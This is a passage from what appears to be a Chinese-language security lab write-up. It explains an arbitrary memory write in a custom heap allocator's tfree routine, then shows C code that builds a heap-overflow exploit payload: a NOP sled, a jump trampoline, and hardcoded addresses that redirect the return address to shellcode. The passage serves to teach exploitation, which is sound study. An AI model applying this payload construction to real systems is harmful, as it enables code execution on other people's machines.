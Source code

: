 >   ```
>
>   ![Untitled Diagram](vul4.assets/Untitled Diagram-1618044701840.png)
>
>   > 指针 $q$ 指向的数据可以被用户修改
>
> - 释放 $q$
>
>   ```c++
>   tfree(q);
>   ```
>
>   - **存在任意内存写漏洞！**

## 构造 exploit

- 利用上述漏洞，将返回地址修改为 shellcode 地址

  > 1. 写入 shellcode
  >
  > 2. 构造写入指针 $q$ 左右指针的值
  >
  >    > 1. 左指针等于 buf 地址
  >    >
  >    >    - 这里没有直接指向 shellcode 的地址是因为需要满足==地址的第5个字节末尾是 1(freebit才会进行合并)==
  >    >
  >    >    - 于是我们将 buf 的第 5~8 个字节全部设置为 0xff
  >    >
  >    >    - 跳转到 buf 的起始地址后需要跳过 5~8 这四个字节，使用相对跳转跳过6个字节，因此在 buf 的前两个字节写入 `6eb`(大端编址)
  >    >
  >    >      ```assembly
  >    >      eb 6
  >    >      ```
  >    >
  >    > 2. 右指针指向返回地址

  ```c++
  int main(void)
  {
      char payload[1024] = { 0 };
      memset(payload, 0x90, sizeof(payload) - 1);
      unsigned int shellcode_offset = 32;
      memcpy(payload + shellcode_offset, shellcode, strlen(shellcode));
  
      unsigned int buf_addr = 0x804a068;
      unsigned int shellcode_addr = buf_addr + shellcode_offset;
      // ebp = 0xffffde5c
      unsigned int return_addr = 0xffffda5c + 4;
      // 需要按照 8 字节对齐
      unsigned int q_offset = 504;
      
      //! 需要注意的是，这里并不能直接指向 shellcode 的地址
      //! 因为需要 (int)(addr + 4) 是一个奇数,而 *(shellcode + 4) = 0xc0310876 不满足条件
      //! 因此我们需要指向一个 shellcode 前面的一个位置，并通过 nop 滑倒 shellcode
      //! 这里直接将 payload + 4 设置为 0xffffffff
      memset(payload + 4, 0xff, 4);
      // q.l = buf_addr
      memcpy(payload + q_offset, &buf_addr, 4);
      //! 由于 buf_addr + 4 变成了 0xffffffff, 而返回地址位于 buf_addr
      //! 因此需要跳过这 4 个字节
      // eb 6 相对跳转
      // 注意是大端编址
      unsigned short int jmp_4_bytes = 0x6eb;
      memcpy(payload, &jmp_4_bytes, 2);
  ```